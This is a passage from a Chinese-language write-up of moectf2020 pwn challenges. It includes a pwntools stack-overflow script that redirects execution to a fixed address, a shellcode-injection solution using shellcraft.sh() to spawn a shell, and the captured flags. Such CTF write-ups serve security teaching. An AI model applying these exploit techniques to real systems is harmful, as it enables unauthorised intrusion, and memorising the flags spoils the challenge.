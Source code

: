 故构造如下payload

```
from pwn import *
p = process('pwn1')
pl = 'A'*72 + p64(0x400676)
p.recv()
p.sendline(pl)
p.interactive() 
```

[外链图片转存失败,源站可能有防盗链机制,建议将图片保存下来直接上传(img-8umNN50M-1605852471153)(https://i.loli.net/2020/08/01/JplCRSkxYLyEDKO.png)]

```
moectf{a0e65c41-fe8a-4db9-a070-f6593a5858c3} 
```

## Baby Shellcode - shellcode

[点击下载-baby_shellcode](/download/moectf2020/pwn/baby_shellcode/baby_shellcode%22%E7%82%B9%E5%87%BB%E6%AD%A4%E5%A4%84%E4%B8%8B%E8%BD%BD%E5%8E%9F%E9%A2%98%22)

拖进IDA可以看到这道题本地只有一个输出语句和一个输入语句

![image.png](img/fcefe54b71a30a14be8d9880e0cd01c2.png)

我们可以看到程序读入我们的输入后直接尝试将我们的输入作为代码来执行，因此我们直接构造getshell的shellcode输入即可

使用**asm(shellcraft.sh())**可以直接获取一段shellcode

[外链图片转存失败,源站可能有防盗链机制,建议将图片保存下来直接上传(img-zDOO4UZe-1605852471154)(https://i.loli.net/2020/09/15/kB9NEsTiAfwXSnz.png)]

```
moectf{D0_yoU_kN0w_she11c0d3?} 
```

## unusual shellcode - Alphanumeric Shellcode
